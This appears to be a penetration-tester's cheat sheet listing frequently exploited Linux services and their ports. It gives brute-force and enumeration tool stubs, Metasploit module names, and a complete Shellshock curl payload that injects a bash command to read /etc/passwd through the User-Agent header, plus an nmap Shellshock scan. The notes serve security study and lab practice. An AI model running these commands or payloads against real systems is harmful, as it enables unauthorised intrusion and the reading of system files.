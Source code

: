 # Frequently Exploited Linux Services

| Protocol/Service             | Ports                                    | Purpose                                                                                                                                                                         |
| ---------------------------- | ---------------------------------------- | ------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- |
| Apache Web Server            | TCP ports 80/443                         | Free and open source cross-platform web server released under the Apache License 2.0. Apache accounts for over 80% of web servers globally.                                     |
| SSH (Secure Shell)           | TCP ports 22                             | SSH is a cryptographic remote access protocol that is used to remotely access and control systems over an unsecured network. SSH was developed as a secure successor to telnet. |
| FTP (File Transfer Protocol) | TCP port 21 FTP (File Transfer Protocol) | is a protocol that uses TCP port 21 and is used to facilitate file sharing between a server and client/clients and vice versa.                                                  |
| SAMBA                        | TCP port 445                             | Samba is the Linux implementation of SMB, and allows Windows systems to access Linux shares and devices.                                                                        |


# FTP (T:21)

```bash
hydra ...
```
## $ msf
[[Metasploit#FTP]]


# SSH (T:22)

```bash
hydra ...
```

```bash
auxiliary/scanner/ssh/ssh_version
```

# Apache Web Server (T:80/443)

## Shellshock

```bash
curl -H "user-agent: () { :; }; echo; echo; /bin/bash -c 'cat /etc/passwd'" \
http://localhost:8080/cgi-bin/vulnerable
```

## $ nmap>Shellshock

payload przemycany najczęściej w nagłówku `User-Agent`

```bash
$ nmap -sV -p- --script http-shellshock --script-args uri=/cgi-bin/bin[,cmd=ls] <target>
```

## $ msf>Shellshock

```bash
exploit/multi/http/apache_mod_cgi_bash_env_exec
```

# SAMBA (T:445)
```bash
enum4linux ...
smbmap ...
smbclient ...
```
```bash
exploit/linux/samba/is_known_pipename
```